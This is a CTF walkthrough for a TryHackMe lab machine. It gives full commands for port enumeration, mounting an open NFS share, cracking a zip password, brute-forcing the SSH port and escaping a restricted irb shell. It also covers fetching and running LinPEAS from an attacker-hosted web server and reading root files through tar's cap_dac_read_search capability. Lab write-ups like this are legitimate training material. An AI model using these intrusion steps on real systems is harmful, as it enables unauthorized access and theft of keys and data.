 # CTF: The Binding of Cyber

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)
![alt text](img/thebindingofcyber.png)

## Description

> Try not to lose yourself in this devilish room

## Write-up

Flag: flag.txt
UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### Flag

We have a message in TryHackMe who said : 
```
Start at port 109 and enumerate your way.
Good luck.
```

We can use `nc` to connect to the target machine on port 109.

```
> nc $IP 109
I am lost, can you find me ? I'm usually on the top 100 ports
```

We can use `nc` to connect to the target machine on the top 100 ports.

```
for i in {1..100};do nc <IP> $i;echo "";done 
```

We have an emoji with information about the next port to connect to. (I replaced the information with `#` to avoid spoilers)

```
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⣤⣴⣶⣶⣶⣶⣶⣶⣤⣄⣀⠄⠄⠄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⢀⣠⣶⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⢀⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣆⠄⠄⠄⠄

550 12345 ⠄⠄⢀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⠄#⠄

550 12345 ⠄⠄⣾⣿⡿⠟⡋⠉⠛⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠛⠉⠉⠙⠻⣿⣿⣇#⠄

550 12345 ⠄⢠⣿⡏⢰⣿⣿⡇⠄⠄⢸⣿⣿⣿⠿⠿⣿⣿⣿⠁⣾⣿⣷⠄⠄⠘⣿⣿#⠄

550 12345 ⠄⠸⣿⣇⠈⠉⠉⠄⠄⢀⣼⡿⠋⠄⠄⠄⠄⠙⢿⣄⠙⠛⠁⠄⠄⢠⣿⣿#⠄

550 12345 ⠄⠄⢿⣿⡇⠄⠄⠄⣶⣿⣿⢁⣤⣤⣤⣤⣤⣤⠄⣿⣷⠄⠄⠄⠈⢹⣿⡟⠄⠄

550 12345 ⠄⠄⠈⢿⡗⠄⠄⢸⣿⣿⣿⣶⣶⣶⣶⣶⣶⣶⣶⣿⣿⠄⠄⠄⠄⢸⡟⠄#⠄

550 12345 ⠄⠄⠄⠄⠳⡀⠄⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠄⠄⠄⠄⠌⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠈⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⠄⠄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠉⠙⠻⠿⠿⣿⣿⣿⣿⠿⠿⠛⠉⠄⠄⠄⠄⠄⠄⠄#⠄

550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄#⠄
```

We can use `nc` to connect to the target machine on port <PORT>

```
nc $IP <PORT>
It remember ! I put the flags in my chest, it's on a nfs share, how do i list them ?
```

We can use `showmount` to list the nfs share.

```
showmount -e $IP
Export list for <IP>:
<DIR> *
```

We can use `mount` to mount the nfs share.

```
mkdir /mnt/nfs
mount -t nfs $IP:<DIR> /mnt/nfs
```

We can use `ls` to list the content of the nfs share.

```
ls /mnt/nfs
chest.zip
```

We can use `zipinfo` to list the content of the zip file.

```
zipinfo chest.zip
Archive:  /mnt/nfs/chest.zip
Zip file size: 4824 bytes, number of entries: 8
drwxr-xr-x  3.0 unx        0 bx stor 21-Dec-02 15:46 home/
drwxr-xr-x  3.0 unx        0 bx stor 21-Dec-02 15:45 home/isaac/
drwx------  3.0 unx        0 bx stor 22-Nov-14 17:10 home/isaac/.ssh/
-rw-------  3.0 unx     3369 TX defN 21-Dec-02 15:41 home/isaac/.ssh/id_rsa
-rw-r--r--  3.0 unx       10 TX stor 21-Dec-02 15:41 home/isaac/.ssh/hint.txt
-rw-r--r--  3.0 unx      736 TX defN 21-Dec-02 15:41 home/isaac/.ssh/authorized_keys
-rw-r--r--  3.0 unx       35 TX stor 22-Nov-14 17:10 home/isaac/.ssh/flag.txt
-rw-r--r--  3.0 unx      736 TX defN 21-Dec-02 15:41 home/isaac/.ssh/id_rsa.pub
8 files, 4886 bytes uncompressed, 3320 bytes compressed:  32.1%
```
We can try to extract the zip file.

```
unzip /mnt/nfs/chest.zip -d /mnt/nfs
```

It's password protected. We can use `zip2jhon` to crack the password.

```
zip2john /mnt/nfs/chest.zip > /tmp/chest.hash
john /tmp/chest.hash --wordlist=rockyou.txt
```

We have the password. We can use `unzip` to extract the zip file.

```
unzip /mnt/nfs/chest.zip -d /mnt/nfs
```

We can use `cat` to see the content of the `flag.txt` file.

**_Well done! You found the flag!_**

### User Flag

We have an `id_rsa.pub` file in the `.ssh` directory. We can try to connect to the target machine using the `id_rsa` file.
```
ssh -i /mnt/nfs/home/isaac/.ssh/id_rsa.pub isaac@$IP
ssh_exchange_identification: read: Connection reset by peer
```

We have an `hint.txt` file in the `.ssh` directory. We can use `cat` to see the content of the file.

```
cat /mnt/nfs/home/isaac/.ssh/hint.txt
```

It's said `<PORT>-<PORT>`

We can try to connect to the target machine ssh with a script to test all the ports. It's long i know

```bash
HOST="<IP>"
USER="isaac"

for PORT in {5000..6500}; do
  ssh -o ConnectTimeout=2 -p $PORT $USER@$HOST exit
  if [ $? -eq 0 ]; then
    echo "Connexion réussie sur le port $PORT"
  else
    echo "Connexion échouée sur le port $PORT"
  fi
done
```

We have a message when we found the good port.

So we can connect to the target machine with the good port.

```
ssh -i /mnt/nfs/home/isaac/.ssh/id_rsa isaac@$IP -p <PORT>
```

We come to the target machine in an `irb` shell. We go to GtfoBins to see how we can escape from the shell.

We can use `exec` to escape from the shell.

```
exec "/bin/bash"
```
We can use `cat` to see the content of the `user.txt` file.

**_Well done! You found the user flag!_**

### Root Flag

For the root we can use `LinPEAS` to see if we can find something interesting.

So in the attacker machine 
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
sudo python3 -m http.server 80
```

In the target machine
```bash
cd /tmp
wget http://$IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

We found vulnerabilities in the capabilties of the user `root`.

```
Capabilities:
Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/tar cap_dac_read_search=ep
/snap/core20/2015/usr/bin/ping cap_net_raw=ep
```

```
CAP_DAC_READ_SEARCH
CAP_DAC_READ_SEARCH enables a process to bypass permissions for reading files and for reading and executing directories.
```

We can use `tar` to get the root flag.
```
tar -cvf flag.tar /root/root.txt
cat root/root.txt
```

We can use `cat` to see the content of the `flag.tar` file.

**_Well done! You found the root flag!_**